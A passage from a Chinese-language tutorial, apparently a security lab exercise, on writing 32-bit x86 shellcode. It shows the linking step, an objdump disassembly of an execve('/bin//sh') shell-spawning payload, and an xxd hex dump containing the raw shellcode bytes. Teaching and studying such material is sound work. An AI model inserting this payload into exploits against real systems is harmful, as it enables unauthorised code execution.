 ![](https://gls.show/image/31h00bitb5.jpg)

通过链接得到可执行文件：

```shell
$ ld -m elf_i386 mysh.o -o mysh
```

可以通过`./mysh`启动shell，然后使用`echo $$`得到目前进程的id，从而验证是否成功开启了shell

接下来，我们需要从可执行文件或目标文件中提取机器代码（machine code）

```shell
$ objdump -Mintel --disassemble mysh.o

mysh.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:	31 c0                	xor    eax,eax
   2:	50                   	push   eax
   3:	68 2f 2f 73 68       	push   0x68732f2f
   8:	68 2f 62 69 6e       	push   0x6e69622f
   d:	89 e3                	mov    ebx,esp
   f:	50                   	push   eax
  10:	53                   	push   ebx
  11:	89 e1                	mov    ecx,esp
  13:	31 d2                	xor    edx,edx
  15:	31 c0                	xor    eax,eax
  17:	b0 0b                	mov    al,0xb
  19:	cd 80                	int    0x80
```

- -Mintel表示显示Intel格式的汇编代码，而非默认的ATT格式
- --disassemble表示反汇编，也可以使用-d代替

可以使用xxd命令获取二进制序列

```shell
$ xxd -p -c 20 mysh.o

7f454c4601010100000000000000000001000300
0100000000000000000000004000000000000000
3400000000002800050002000000000000000000
0000000000000000000000000000000000000000
0000000000000000000000000000000000000000
0000000001000000010000000600000000000000
100100001b000000000000000000000010000000
0000000007000000030000000000000000000000
3001000021000000000000000000000001000000
0000000011000000020000000000000000000000
6001000040000000040000000300000004000000
1000000019000000030000000000000000000000
a00100000f000000000000000000000001000000
00000000000000000000000031c050682f2f7368
682f62696e89e3505389e131d231c0b00bcd8000
00000000002e74657874002e7368737472746162
002e73796d746162002e73747274616200000000
0000000000000000000000000000000000000000
0000000000000000010000000000000000000000
0400f1ff00000000000000000000000003000100
08000000000000000000000010000100006d7973
682e73005f73746172740000
```
